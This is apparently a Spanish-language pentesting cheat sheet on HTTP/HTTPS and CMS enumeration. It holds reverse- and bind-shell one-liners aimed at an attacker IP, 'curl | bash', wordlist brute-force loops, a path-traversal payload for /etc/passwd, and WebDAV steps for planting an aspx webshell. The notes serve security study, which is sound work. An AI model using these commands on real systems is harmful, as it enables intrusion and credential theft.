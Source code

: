 # HTTP 

Tags: #Web #Puerto #Reconocimiento #Escaneo #CMS #Comandos #HTTP #HTTPS 

80 - Este puerto es el que se usa para la navegación web de forma no segura HTTP. 

## Codigos de estado 
* 200 -> OK
- 301 -> Moved Permanently (Follow Redirect)
- 401 -> Unauthorized
- 403 -> Forbidden
- 404 -> Not Found

## URL-Encode
* & = %26

Si la versión del servidor HTTP es “**Apache httpd 2.4.46 o HTTP nginx 1.18.0**“, podemos determinar que el sistema está ejecutando una distribución de Ubuntu. El número de versión “**httpd 2.4.46 o nginx 1.18.0**” se refiere a la revisión específica del paquete de SSH en esa distribución de Ubuntu. A partir de esto, podemos identificar el **codename** de la distribución de Ubuntu, que en este caso sería “**Focal**” para Ubuntu 20.04.
Todas estas búsquedas las aplicamos sobre el siguiente dominio:
-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

### Rutas tipicas
**/var/www/html** Ruta tipica de Apache o Nginx
**/opt/blog/server.js** Ruta por default de Node.js

❯ **Ctrl + u** Para ver el codigo fuente de la pagina web
❯ **Ctrl + r** Recargar la pagina web
❯ **Ctrl + Shift + c** Para inspeccionar el codigo 
❯ **Ctrl + Click-Izquierdo** Abrimos el enlace en otra pestaña


```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80

	# Mirar la jQuery
	# Servidor Web
```

```bash
❯ whatweb ❮http://IP:PORT❯             # Nos dara una breve descripcion del gestor de contenidos por un puerto especifico
```

```bash
❯ whatweb ❮http://❮IP❯ -v

	# v = Miramos las cabeceras de la pagina web, las cuales aveces nos revelan cosas
```

```bash
❯ curl ❮IP❯ | bash                     # Lo que hace Curl es obtener un index.html del servidor y despues con el bash haremos que nos interprete la data en bash
```

```bash
❯ curl -s -X GET http://❮IP❯ -I        # Miramos las cabeceras de respuesta de la pagina web 

	# I = i mayuscula
	# s = silence
```

```bash 
❯ davtest -url http://127.0.0.1 -auth admin:admin     # Debemos de tener el usuario y passwd validos para poder usar la tool

	# 1er admin = Usuario 
	# 2do admin = passwd

❯ cat /usr/share/wordlists/rockyou.txt | while read password; do response=$(davtest -url http://127.0.0.1 -auth admin:$password 2>&1 | grep -i succed); if [ $response ]; then echo "[+] La passwd correcta es: $password"; break; fi; done

# Ataque de Fuerza Bruta para encontrar la passwd con el comando davtest

❯ cadaver http://127.0.0.1     # Sirve para subir archivos, descargar contenido, etc... Debemos de tener el usaurio y passwd validos para la autenticacion 
	❯ mkdri test              # Podriamos crearnos dir en los cuales podemos colocar un recurso 
	❯ cd test 
	❯ put webdav.txt          # Podemos subir un archivo 
```

## ReverShell y BindShell
Este comando lo ejecutamos desde la pagina web para hacer una **ReverShell** : 
1) Cuando tenemos Netcat 
2) Cuando no tenemos Netcat
```bash 
❯ nc -e /bin/bash IP-Atacante 443

❯ bash -i >& /dev/tcp/IP-Atacante/443 0>&1
```

```bash
❯ nc -nlvp 443 -e /bin/bash              # Ejecutamos desde la pagina web para ponernos en escucha y hacer una **BindShell** :
```


# HTTPS 
443 - Este puerto es también para la navegación web, pero en este caso usa el protocolo HTTPS que es seguro y utiliza el protocolo TLS por debajo.

```bash
❯ openssl s_client -connect ❮IP❯:443     # Para conectarnos al openssl e inspeccionar el certificado del puerto 443
```

```bash
❯ sslscan ❮IP❯:8443                      # Te da informacion del ssl de la maquina y si detecta alguna vulnerabilidad te la representa, podemos colocar el puerto si no es el comun 443
```


### WordPress Enumeracion 

Formas de **Enumerar**
* **Usuarios** que aparezcan en la pagina Web, podemos validarlos en el panel de autenticacion **Admin**

**/wp-login.php**    Es la ruta del panel de autenticacion 
**/wp-admin.php** Es la ruta del panel de autenticacion de admin
**/wp-json/wp/v2/users/** Reporta usuarios validos en la pagina de WordPress en formato Json
**/wp-content/plugins** Para ver si podemos hacer directory listing y ver los plugins existentes

```bash
❯ wpscan --url ❮http://IP/❯                               # Detecta vulnerabilidades en un wordPress
```

```bash
❯ wpscan --url <http://URL/> -e u,vp                      # Enumeracion 

	# u = Enumerar usuarios
	# vp = Enumerar plugins vulnerables
```

```bash
❯ wpscan --url <http://URL/> -e vp --api-token="DFFGB15GD68DG618GD81GRD"     # Enumeracion 

	# vp = Enumerar plugins vulnerables
	# api-token = Nos representa de mejor manera las vulnerabilidades porque ya tiene el accceso
```

```bash
❯ wpscan --url <http://IP/> -U <USER> -P /usr/share/wordlists/rockyou.txt # Fuerza bruta

	# P = Ruta del diccionario 
	# U = Usuario valido
```

```bash
❯ curl -s -X GET "http://IP/" | grep -oP 'plugins/\k[^/]+' | sort -u # Filtramos por plugins en la paggina web y ver si alguno es vulnerable, los podriamos buscar en Searchsploit

	# sort u = Quitar los resultados repetidos y dejar los 'unicos'
	# s = Modo silencioso 
```

**/xmlrpc.php** Si esta expuesto, podemos enumerar credenciales validas y solo acepta peticiones por **POST** y que este estructurada en **XML**
* Debemos de listar los metodos y lo haremos con el codigo del archivo y ver si existe el siguiente **getUsersBlogs** y despues aplicar fuerza bruta
* [Xmlrpc-Abuse](https://nitesculucian.github.io/2019/07/01/exploiting-the-xmlrpc-php-on-all-wordpress-versions/)
```bash
❯ curl -s -X POST "http://IP/xmlrpc.php" -d@file.xml

	# d@ = Indicamos el archivo que usaremos y es que esta abajo 
```

```bash
❯ nano file.xml

	<?xml version="1.0" encoding="utf-8"?> 
	<methodCall> 
	<methodName>system.listMethods</methodName> 
	<params></params> 
	</methodCall>
```


### Joomla Enumeracion 

Esta herramienta ademas de enumerar un servidor Joomla, nos crea un reporte de las vulnerabilidades que encontro.
**/administrator** Es la ruta del panel de autenticacion de admin

```bash 
❯ perl joomscan.pl -u http://IP/
```

### Drupal Enumeracion 

Esta herramienta ademas de enumerar un servidor Drupal

```bash 
❯  droopescan scan drupal --url https://IP/
```

### Magento Enumeracion 

Esta herramienta ademas de enumerar un servidor Magento
**/administration/admin/index** Es la ruta del panel de autenticacion de admin

```bash 
❯  php magescan.phar scan:all https://IP/
```







- **cat wp-config.php | less** Este archivo suele disponer de credenciales de acceso a la base de datos, file que se encuentra dentro de la maquina victimas y lo miramos en formato de pagina
Tmabien podemos usar **wpseku github security scanner**  o **wordpressscan github**, pero la 'mejor' es wpseku 
- Dentro de un WP podemos editar ese template y colocar un comando. Appearance ->Editor -> 404 Template

- /usr/share/davtest/backdoors/**aspx_cmd.aspx**   Ejecutable que al momento de ejecutarse en una pagina Web, nos dara una WebShell

- Comando -> **curl http://< IP> -v** Haremos que nos ejecute un curl para poder ver la cabeceras de la pagina solicitada y su data


- Comando -> **curl -s -X GET http://< IP>/?p=404** Apuntas a una ruta 404 y haces la peticion
- Comando -> **curl -s -X PUT http://< IP>/file.txt -d @file.txt** Para subir un archivo a una pagina web con un comando a la url que lo indicaremos con el @, este archivo debe tener una extencion especifica y permitida por el webdav. El example.txt en la url es el que debe de tener una extencion permitida.
En este caso para ver mejor el contenido de arriba por Burpsuite, aplicamos el siguiente comando
- Comando -> **curl -s -X POST http://< IP>/fielRead.php -d 'file=./.list/....//....//....//....//etc/passwd'** Miramos la resuesta por POST de la pagina web, y a nivel de (d=data) le pasamos eso 
	- fileRead.php -> lo buscamos en el BurpSuite en la cabecera de POST
- Comando -> **curl -s -X MOVE -H “Destination:http://< URL>/cmd.aspx” http://< URL>/cmd.txt** Moveremos el archivo que subimos con extension .txt ya que no puede ser interpretado y le aplicaremos un renombramiento colocandole su extrension .aspx y lo haremos con la cabecera destination. Esto no dara una terminal en la web. (s=silence)
